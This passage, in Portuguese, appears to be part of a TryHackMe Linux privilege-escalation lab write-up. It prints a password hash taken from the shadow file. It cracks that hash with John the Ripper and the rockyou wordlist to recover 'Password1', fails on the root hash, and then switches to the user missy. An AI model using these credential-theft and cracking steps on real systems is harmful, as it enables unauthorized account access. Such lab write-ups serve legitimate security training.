 ```bash
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

Agora temos duas hashes de senhas: uma do usuário `missy` e outra do usuário `root`. Vamos usar o John The Ripper para quebrar as hashes.

<div class="page"/>

Primeiro vamos tentar quebra a hash do usuário `missy`. Vamos salvar a hash em um arquivo chamado `hash.missy`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/linprivesc                                                                            12:27:22
╰──➤ cat hash_missy
$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/linprivesc                                                                            12:21:37
╰──➤ john --wordlist=/usr/share/wordlists/rockyou.txt hash_missy
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (?)
1g 0:00:00:02 DONE (2023-03-03 12:21) 0.4132g/s 1480p/s 1480c/s 1480C/s adriano..fresa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

O John The Ripper conseguiu quebrar a hash do usuário `missy` com a senha `Password1`. Vamos tentar quebrar a hash do usuário `root`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/linprivesc                                                                            12:22:36
╰──➤ john --wordlist=/usr/share/wordlists/rockyou.txt hash_root
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:04:37 3.81% (ETA: 14:23:55) 0g/s 2271p/s 2271c/s 2271C/s lavette3..lardbutt
Session aborted
```

O John the ripper não conseguiu quebrar a hash do usuário `root`. Então vamos logar no usuário `missy` com a senha `Password1`.

```bash
[leonard@ip-10-10-45-203 /]$ su missy
Password: 
[missy@ip-10-10-45-203 /]$
```
